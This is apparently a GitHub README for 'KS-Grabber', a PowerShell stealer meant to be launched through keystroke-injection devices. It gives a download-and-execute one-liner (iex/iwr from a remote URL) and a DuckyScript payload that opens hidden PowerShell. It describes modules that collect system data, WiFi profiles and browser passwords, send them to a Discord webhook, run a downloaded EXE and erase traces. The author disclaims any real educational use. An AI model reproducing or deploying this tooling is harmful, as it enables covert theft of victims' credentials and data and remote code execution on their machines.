 # ✨ KS-Grabber

KS-Grabber is a keystroke injection grabber that is fully modular and developed with PowerShell. This script allows you to collect information from various sources and send it to a webhook.

## Usage

Run the following command in PowerShell to execute KS-Grabber:

```powershell
$hookUrl = '<webhook goes here>'
iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content
```

## Configuration

Before running the script, you need to configure the boolean variables that enable the grabber modules. Open the script and set the following variables:

```powershell
$gatherPcData = $true  <# Gather PC data #>
$gatherWifiProfiles = $true  <# Gather WiFi profiles #>
$gatherOpenPorts = $true  <# Gather open ports #>
$executeExe = $false  <# Execute and EXE File #>
$gatherBrowserPass = $false <# [WIP] Gather passwords saved in browsers #>
$removeTraces = $true  <# Remove traces #>
```

You can also change some extra variables according to your preferences regarding the modules:

```powershell
$keyContentLabel = "Key Content"  <# Only if the system is not in en-us or en-br. #>
$exeUrl = "https://somerandomwebsite.lol/yourfile.exe" <# The EXE file referring to the executeExe function. #>
```

**WARNING:** It is mandatory to configure the webhook correctly. Replace the value of the `$hookUrl` variable with your webhook:

```powershell
$hookUrl = "https://discord.com/api/webhooks/wompwomp"
```

Otherwise, the script will not work!

## Example Attack

Here is an example attack using the grabber:

```plaintext
GUI r
DELAY 1000
STRING cmd
ENTER
DELAY 1000
STRING powershell -windowstyle hidden -command "$hookUrl = '<webhook goes here>'; iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content"
ENTER
```
### ⭐ Made for educational purposes (even though I don't know how it can be used in an educational way), I am not responsible for how this tool is used.

